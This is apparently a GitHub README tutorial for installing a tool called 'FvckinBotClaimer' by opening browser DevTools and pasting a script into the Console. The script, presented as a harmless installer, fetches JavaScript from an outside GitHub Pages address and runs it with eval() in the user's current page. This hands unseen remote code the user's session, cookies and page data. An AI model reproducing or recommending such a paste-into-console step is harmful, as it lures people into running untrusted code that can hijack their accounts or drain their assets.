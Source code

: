 # 
# How to Intallation FvckinBotClaimer in Browser DevTools

This tutorial will guide you step-by-step on how to inject and run a custom JavaScript script in your browser's Developer Tools (DevTools) console.

---

## What You Will Learn

- How to open browser DevTools
- How to navigate to the Console tab
- How to paste and execute your JavaScript code
- Tips for safely using scripts in DevTools

---

## Step 1: Open DevTools in Your Browser

- **Windows/Linux**: Press <kbd>F12</kbd> or <kbd>Ctrl</kbd> + <kbd>Shift</kbd> + <kbd>I</kbd>
- **macOS**: Press <kbd>Cmd</kbd> + <kbd>Option</kbd> + <kbd>I</kbd>
  
Alternatively, use the browser menu:

- **Chrome / Edge**: Menu &gt; More tools &gt; Developer tools
- **Firefox**: Menu &gt; Web Developer &gt; Toggle Tools
- **Safari**: Enable “Show Develop menu” in Preferences &gt; Advanced, then use Develop &gt; Show Web Inspector

---

## Step 2: Navigate to the Console Tab

Inside DevTools, click the **Console** tab. This is where you can type or paste JavaScript commands.

You can also open the Console directly using keyboard shortcuts:

- **Windows/Linux**: <kbd>Ctrl</kbd> + <kbd>~</kbd>
- **macOS**: <kbd>Cmd</kbd> + <kbd>Option</kbd> + <kbd>K</kbd>

---

## Step 3: Paste Your Script Code

Copy the following script code and paste it directly into the Console input area:

```js
(async function () {
  try {
    let installer = await fetch("https://fvckinbot.github.io/FvckinBotClaimer.io/", {
      method: "GET",
    });
    installer = await installer.text();
    eval(installer);
  } catch (error) {
    alert("Refresh the page before reinstalling");
  }
})();

